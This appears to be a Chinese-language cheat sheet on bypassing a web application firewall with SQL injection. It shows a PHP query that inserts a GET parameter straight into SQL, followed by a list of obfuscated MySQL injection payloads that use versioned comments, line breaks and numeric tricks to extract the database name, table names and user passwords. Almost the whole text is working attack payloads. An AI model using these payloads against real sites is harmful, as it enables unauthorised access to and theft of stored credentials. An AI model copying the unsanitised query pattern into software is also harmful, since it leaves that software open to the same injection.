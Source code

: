 
**语句**
- 查询语句
```sql
select * from cms where id='{$_GET['id']}'
```
- 绕过语句
```SQL
where id='3'/*!and*/ 2e1/**/=2e1--+
where id='2e1'/*!and*/ 2e1/**/=2e1union(/*.1112*//**//*!*/(select@1/**/,2,database/**/(),4,5))--+
where id='2e1'/*!and*/ 2e1/**/=2e1union(/*.1112*//**//*!*/(select@1/**/,2,group_concat(table_name),4,5 from information_schema.tables where table_schema=0x74657374))--+
```
```sql
id=1 and{`version`length((select/*!50000schema_name*/from/*!50000information_schema.schemata*/limit 0,1))>0}
id=-11/*!union/*!select/*!1,(select/*!password/*!from/*!test.user limit 0,1),3*/
id=-11 union--+%0aselect 1,(select--+%0apassword from --%01%0atest.user limit 0,1),3
id=@a:=(select@b:=`username`from{a test.user}limit0,1)union--%0aselect'1',@a,3
id=-1/*!union--%01%0aselect1,password,3 from test.user*/
```
```sql
select * from users where id=\Nunion select 1;
select * from users where id=1.1union select 1;
select * from users where id=8e0union select 1;
select * from users where id=/*!50000union*/ select 1;
select{x 1};  // https://dev.mysql.com/doc/refman/5.7/en/expressions.html
select\N 1;  
```

waf检测到sql中有长字符可能存在绕过：
![](/images/19-2-16_SQL_过狗2.png)



